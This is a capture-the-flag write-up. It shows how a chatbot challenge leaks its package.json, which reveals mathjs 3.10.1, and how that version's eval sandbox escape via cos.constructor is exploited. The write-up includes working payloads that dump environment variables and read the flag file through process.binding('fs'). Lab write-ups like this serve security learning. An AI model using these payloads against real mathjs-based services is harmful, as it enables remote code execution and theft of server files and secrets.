 # Where's the package - Points: ???

### Description:

<missing since site is down>

### Hints

<missing since site is down>

### Solution

*Note: I'll add screenshots once the site is back up*

The hint mentions sending `help` to the chatbox. Sending this message, the server responds with `'I'm your new best friend. If you want to know more about me just ask "tell me about yourself"`. Sending  `tell me about yourself` responds with a copy of index.js. Looking at the code, see the tell me about options are `["yourself", "index.js", "package.json"]`. You can then do `tell me about package.json` and get this file. Looking at package.json, you see the verions of the various installed packages (also hinted at by the challenge name). Quickly googling this package, you will come across an issue with `"mathjs": "3.10.1"`. I found a pretty good tutorial on this issue [here](https://capacitorset.github.io/mathjs/).

Essentially, there is an issue with mathjs's eval. Using `cos.constructor()`, you can execute code. I first did `what is cos.constructor("return process.env")()` and got the response:

```
LANG: "en_US.UTF-8"
OLDPWD: "/"
PATH: "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
PWD: "/problems/where-s-the-package-_1_4cdb4544defb85e124b23177204f6aad"
REMOTE_HOST: "173.67.15.54"
SHLVL: "1"
_: "./start.sh"
_SYSTEMCTL_SKIP_REDIRECT: "true"
```

Now I know the PWD of the challenge. You can now read the flag with `what is cos.constructor("buffer = Buffer.allocUnsafe(64); process.binding('fs').read(process.binding('fs').open('/problems/where-s-the-package-_1_4cdb4544defb85e124b23177204f6aad/flag', 0, 0600), buffer, 0, 64); return buffer.toString()")()
`

### Flag: `ACI{233c0f165c26a20fb119c8ccc32}`
